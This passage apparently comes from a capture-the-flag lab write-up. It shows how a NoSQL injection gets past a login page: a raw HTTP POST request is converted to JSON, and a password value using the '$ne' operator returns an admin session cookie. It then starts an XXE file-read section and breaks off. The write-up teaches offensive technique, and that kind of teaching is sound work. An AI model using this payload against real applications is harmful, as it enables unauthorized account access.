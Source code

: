 If the server interprets that how I want, it would make it look for records where the password was not equal to “wrongpassword”, which would return the admin record.

I’ll send the login POST request to Burp Repeater and give this a try, but it doesn’t work.

The other way that data can be sent is as JSON. I’ll change the `Content-Type` header, and then convert the body to JSON (first without any injection to make sure the site processed it correctly):

```

POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 46
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

{"user": "admin", "password": "wrongpassword"}

```

Sending that does return the “Invalid Password” message, which shows that the username was processed and matched. I’ll replace the string “wrongpassword” with a JSON object that uses the `$ne` operator to look for records that have the username admin and don’t have that password:

```

{"user": "admin", "password": {"$ne": "wrongpassword"}}

```

On sending that, the response comes back with a cookie, which is a good indication I’ve successfully logged in.

I can grab that cookie and add it to Firefox using the dev tools. Alternatively, I could turn intercept on in Burp, submit the login from Firefore, modify it the same way as I did in Repeater, and then forward it. Either way, I have a logged in session in Firefox:

![image-20220110115840824](https://0xdfimages.gitlab.io/img/image-20220110115840824.png)

The auth bypass was all I need from this NoSQL injection, but I can also dump out the usernames and passwords from the database. I’ll show this in [Beyond Root](#nosql-data-collection).

### XXE File Read

#### Site Enumeration

The logged in site has a few more buttons. “New Article” leads to `/articles/new`, which is a form for creating a new article:
